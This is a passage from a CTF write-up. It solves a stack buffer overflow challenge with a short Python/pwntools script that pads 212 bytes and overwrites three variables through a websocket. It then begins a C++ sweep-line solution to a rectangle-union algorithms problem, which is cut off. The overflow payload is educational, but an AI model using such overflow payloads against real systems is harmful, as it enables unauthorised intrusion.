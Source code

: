 We can see that buf starts at -0xe0(%rbp), and the 3 overflow variables start at -0xc(%rbp). Converting from hex to decimal, we see that 0xe0 - 0xc = 212, meaning we need to pad with 212 random characters then insert what we want. So, we can send the following payload: 

```python
from pwn import *

import asyncio
import websockets

async def solve():
    uri = "ws://cararra-ctf-files.herokuapp.com/r4/stack-attack"
    async with websockets.connect(uri) as websocket:
        print(f"< {await websocket.recv()}")
        await websocket.send(b'a'*212 + p32(0xdecafc0f) + p32(0xf00dd00d) + p32(0xdeadbeef) + b'\n')
        print(f"Sent payload")
        print(f"< {await websocket.recv()}")

asyncio.get_event_loop().run_until_complete(solve())
```

Running the code, we get our flag is `cararraCTF{y0Ur3_4_st@cK_SMASHer_n0w!}`.

## overlapping-squares-1

Algorithms (175 points)

### Problem

Given N rectangles, find the total area of their union mod 10^9+7. The test case gives N on the first line, followed by N lines each with 4 numbers specifying a rectangle: X_1, Y_1, X_2, Y_2. (X_1, Y_1) gives the bottom left corner, (X_2, Y_2) gives the top right. Enter your answer in flag format: if your answer is 50, enter the flag cararraCTF{50}. (Note: there will be another problem in the future with N=1000000, so if you want to code that solution directly go ahead).

### Writeup

We can basically do double sweep line as described here: [https://stackoverflow.com/questions/40622016/efficient-way-to-find-overlapping-of-n-rectangles/40673354](https://stackoverflow.com/questions/40622016/efficient-way-to-find-overlapping-of-n-rectangles/40673354).

Here is the code:

```cpp
#include <iostream>
#include <fstream>
#include <vector>
#include <algorithm>

using namespace std;

ifstream fin("overlapping-squares-1.txt");

typedef pair<int,int> pii;

struct rect {
  int x1, y1, x2, y2;
};
struct p {
  int x, rect;
  bool end;
};

int n;
rect rects[1000001];
```